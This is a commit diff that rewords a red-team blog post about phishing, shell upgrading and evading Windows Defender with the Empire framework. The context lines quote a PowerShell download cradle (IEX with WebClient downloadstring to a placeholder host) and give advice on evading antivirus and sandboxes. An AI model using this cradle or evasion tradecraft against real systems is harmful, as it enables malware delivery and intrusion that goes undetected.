

Before and after one commit to whmacmac/test, a Jekyll site: the page built from _posts/2020-04-22-RedTeam-Exercises-with-OpenSource-Tools-Part-2.md, in a window 1280 px wide and 900 px high, scrolled down 464 px. Shown: the whole window, without its empty margins (248-1030 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-04-22-RedTeam-Exercises-with-OpenSource-Tools-Part-2.md

```diff
--- a/_posts/2020-04-22-RedTeam-Exercises-with-OpenSource-Tools-Part-2.md
+++ b/_posts/2020-04-22-RedTeam-Exercises-with-OpenSource-Tools-Part-2.md
@@ -18,13 +18,13 @@ It took me more than I anticipated to write the second part. The guys from BC-Se
 
 I finished the first part promising that I will apply the theory on some real world cases. Without other words, let's see what scenarios I will approach:
 <ul>
-<li>Scenario 1: I consider I already obtained somehow access in the network via a service exploit, web application vulnerability or through a phishing email. I will explore some ways of upgrading the dumb shell without being detected by WindowsDefender.</li>
- <li>Scenario 2: I was speaking about a RedTeam exercise in my first article, am I right? What RedTeam Exercise is that where I don't make use of a little phishing mail? I will build from 0 a phishing email where I will explore anti-sandbox techniques.</li>
+<li>Scenario 1: I consider I have already obtained access in the network via a service exploit, web application vulnerability or through a phishing email. I will explore some ways of upgrading the dumb shell without being detected by WindowsDefender.</li>
+ <li>Scenario 2: I was talking about a RedTeam exercise in my first article, am I right? What kind of RedTeam Exercise is that if I don't use of a phishing mail? I will build from 0 a phishing email where I will explore anti-sandbox techniques.</li>
 </ul>
 
-I considered that we all encountered situations where we were limited by a dumb shell. We could not upgrade it because of not taking all the necessary measures against a security solution. I found myself in the situation where I could access the target's network only through a phishing email.<br/>
+I considered that we all encountered situations where we were limited by a dumb shell. We could not upgrade it if we do not take all the necessary measures against a security solution. I found myself in the situation where I could access the target's network only through a phishing email.<br/>
 I wanted to develop a simple malware that it uses the multi stager feature of the Empire framework. I want from start that all what I will present, fits on the real world scenarios. <b>Also all what i show you is just in education purposes. Do not apply outside of your network.</b><br/>
-Lets speak a bit about how our phishing mail from the 2nd scenario will look, how I was thinking its arhitecture, what difficulties I am expecting to encounter during its delivery or execution.
+Lets talk a bit about how our phishing mail from the 2nd scenario will look, how I was thinking its arhitecture, what difficulties I am expecting to encounter during its delivery or execution.
 
 <ul>
 <li>Phase 1 and 2: They are referring to successful delivery the email in the user's inbox. Depending on the type of infrastructure I am targeting, I expect to encounter a mail protection with the ability to detect and eventualy detonate my attachment in a sandbox. We have to take the proper measures to avoid being detected by the security gateway and in case we are, then we should make sure to instruct my payload to not start the execution process in the analysis machine. In case I am flagged by a security protection, I will have to remake my payload.</li>
@@ -109,7 +109,7 @@ The Empire's stager (multi/launcher) is coming with the 'encodedcommand' command
 I recommend to turn base64 off. It doesn't add anything to your obfuscation while trying to avoid Defender. It's really just used because it's the easiest way to handle sending the command in a string. Once you have your obfuscated code you can re-encode it if you really want to use this method. <br/>
 Most security related solutions created features for detecting base64 encoded strings and analyzing them after the content is decoded. CarbonBlack, FireEye made public their sollutions' capabilities in the past, being clear for us that the above arguments are using as a part of their detection rules: you can read more <a href="https://www.carbonblack.com/2015/08/14/how-to-detect-powershell-empire-with-carbon-black/" style="text-decoration: none;">here</a> and <a href="https://www.fireeye.com/blog/threat-research/2018/07/malicious-powershell-detection-via-machine-learning.html" style="text-decoration: none;">here</a>.
 
-<br/><br/>Now that I identified almost all the patterns that are triggering the Microsoft's signatures, let's speak about the dropper before starting with the demo.
+<br/><br/>Now that I identified almost all the patterns that are triggering the Microsoft's signatures, let's talk about the dropper before starting with the demo.
 
 ### Dropper <br/>
 Possibly many of you use the powershell command "IEX((New-Object System.Net.WebClient).downloadstring('http://something'));" for downloading in memory your payload. I worked in a SOC and I know the strings like "new-object", "Webclient", "downloadstring" are used by many for detecting suspicious events. I will make use of an open source <a href="https://github.com/danielbohannon/Invoke-CradleCrafter" style="text-decoration: none;">tool</a> made special for this kind of tasks.<br/>
```
